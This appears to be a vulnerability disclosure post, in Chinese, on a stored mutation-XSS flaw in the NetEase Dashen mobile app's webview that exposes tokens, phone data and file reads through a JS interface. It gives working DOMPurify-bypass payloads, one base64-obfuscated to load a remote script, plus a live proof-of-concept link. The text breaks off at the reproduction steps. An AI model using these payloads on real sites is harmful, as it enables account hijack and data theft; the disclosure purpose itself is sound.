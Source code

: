 ```yaml
---
layout: post
title:  "高危：网易大神手机客户端Webview mxss漏洞"
date:   2023-10-20 10:26:18 +0800
categories: xss jsinterface
---
```


## Name

> 网易大神手机客户端存在Webview mxss漏洞，串连不安全的JS interface接口，实现用户敏感信息搜集、账户劫持(请求token泄露)和手机文件上传。这个js interface是注入的，每个打开的网站都能够访问到，但是只有163.com域名能合法调用。因此在163.com域名下找到xss就行。

## Weakness
> 存储型XSS，文件上传，敏感信息收集

## Severity
> 高危

## URL

- POC网页 https://m.ds.163.com/square/63ea17eec8dc9d00019266fe/?type=%E6%9C%80%E6%96%B0%E8%AE%A8%E8%AE%BA 使用chrome手机模式查看，打开后在终端自动打印mxss by 0x5r33!!!
- 视频链接：链接：https://pan.baidu.com/s/1ujV4aKjagPCMNhhxELePgg 提取码：1314

## Key Payload

    payload: <math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><svg onload=alert(document.domain)>">

    payload2：<math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><textarea><a title="</textarea><svg onload=eval(atob('Y29uc29sZS5sb2coJ214c3MgYnkgMHg1cjMzISEhJyk7dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGMDcwYjA4MjUyZGIzNDhhMmJlMjU0NDI3MjIzYzEzMTknO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>">

    POC: https://m.ds.163.com/square/63ea17eec8dc9d00019266fe/?type=%E6%9C%80%E6%96%B0%E8%AE%A8%E8%AE%BA 使用chrome手机模式查看，打开后在终端自动打印mxss by 0x5r33!!!


## Summary
网易大神客户端中，没有对用户发帖进行过滤，全靠手机版网页前端进行过滤，由于手机版网页前端使用了不安全的dompurify组件，该组件受到mXSS（突变型XSS）攻击，导致攻击者能够绕过该组件的过滤，从而在网页上嵌入XSS代码。而该手机版网页通过大神内置的webview进行访问后，xss能够获取客户端暴露的webview javascript interface接口。而该类接口暴露了用户敏感信息例如手机号、请求token、粘贴板数据，更为严重的是暴露了客户端的文件读取接口，攻击者能够读取用户手机指定文件，包括外置存储卡文件和网易大神的私有文件，照成更严重的信息泄漏，不外乎大神应用的数据库、sharedprefs等，造成潜在的账户劫持。

### Detail
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### Trigger
1. 进入大神网页版https://ds.163.com/，然后用chrome模拟手机端，刷新后，网页自动跳转到手机端网址：https://m.ds.163.com/
